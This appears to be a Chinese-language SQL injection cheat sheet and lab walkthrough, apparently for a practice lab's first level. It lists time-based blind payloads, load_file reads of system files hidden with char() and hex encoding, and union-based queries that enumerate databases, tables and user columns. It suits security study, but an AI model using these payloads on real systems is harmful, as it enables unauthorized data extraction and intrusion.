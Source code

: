 - 延时注入

```
If(ascii(substr(database(),1,1))>115,0,sleep(5))%23

UNION SELECT IF(SUBSTRING(current,1,1)=CHAR(119),BENCHMARK(5000000,ENCODE(‘M SG’,’by 5 seconds’)),null) FROM (select database() as current) as tb1;
```

- 导入导出操作

```
load_file()导出文件

Select 1,2,3,4,5,6,7,hex(replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92, 114,101,112,97,105,114,92,115,97,109)))

-1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105)) 
Explain:“char(99,58,47,98,111,111,116,46,105,110,105)”就是“c:/boot.ini”的 ASCII 代码
-1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69) Explain:“c:/boot.ini”的 16 进制是“0x633a2f626f6f742e696e69”
-1 union select 1,1,1,load_file(c:\\boot.ini) Explain:路径里的/用 \\代替

```

```
LOAD DATA INFILE 导入

```


==============================================================================================



- 第一关(联合开始)

```
and 1=1 --+
```

![](https://pic.superbed.cn/item/5dcac5518e0e2e3ee9b94e2b.jpg)

![](https://pic.superbed.cn/item/5dcac66a8e0e2e3ee9b973b3.jpg)

```
id=-1' union select 1,(select group_concat(schema_name) from information_schema.schemata),3 --+
```
![](https://pic.superbed.cn/item/5dcac88c8e0e2e3ee9b9be2c.jpg)

```
id=-1' union select 1,(select group_concat(schema_name) from information_schema.schemata),(select group_concat(table_name) from information_schema.tables where table_schema=database()) --+
```
![](https://pic.superbed.cn/item/5dcaca668e0e2e3ee9ba4663.jpg)

```
id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users') --+
```
![](https://pic.superbed.cn/item/5dcacb248e0e2e3ee9ba661c.jpg)
